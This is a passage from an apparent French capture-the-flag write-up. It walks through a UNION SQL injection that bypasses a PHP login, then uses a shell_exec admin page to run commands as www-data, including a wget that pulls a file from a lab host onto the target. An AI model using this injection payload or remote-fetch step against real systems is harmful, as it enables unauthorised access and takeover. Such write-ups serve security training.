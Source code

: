 Ce message provient de `manager.php`:

```php
<?php
session_start();

if (!isset($_SESSION['username'])) {
        header("Location: login.php");
        exit();
}

if ($_SESSION['username'] !== 'he110wor1d_admin') {
        die("Access Denied. You do not have permission to access this page.");
}

$command_output = '';

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['command'])) {
        $command = $_POST['command'];
            $command_output = shell_exec($command);
}
?>
```

Par conséquent il faut que `login.php` écrit dans le dictionnaire de session le nom d'utilisateur `he110wor1d_admin` qui n'existe pas.

La technique consiste à faire une injection SQL qui va ajouter des lignes de résultat dynamiquement. Cela se fait par une `UNION`: `' UNION SELECT 1, 'he110wor1d_admin', 'yolo`

Ainsi la requête exécutée sera:

```sql
SELECT id, username, password
FROM users where username=''
UNION SELECT 1, 'he110wor1d_admin', 'yolo'
```

Comme il n'y a pas d'utilisateur avec un nom vide, seul notre ligne ajoutée sera retournée par la requête.

Je peux donc me connecter avec `he110wor1d_admin` / `yolo` et accéder au script `manager.php` qui permet d'exécuter des commandes sur le système.


### Rap Battle

Les commandes sont exécutées en tant que `www-data`. Les permissions sur le dossier de l'utilisateur semblaient nous faciliter la tache:

```
drwxr-xr-x 3 www-data www-data 4096 Mar  2 07:05 /var/www
```

J'ai donc créé un dossier `.ssh` et copié une clé privée SSH:

```bash
wget -O /var/www/.ssh/hacker http://192.168.56.1:8000/hacker; chmod 600 /var/www/.ssh/hacker
```
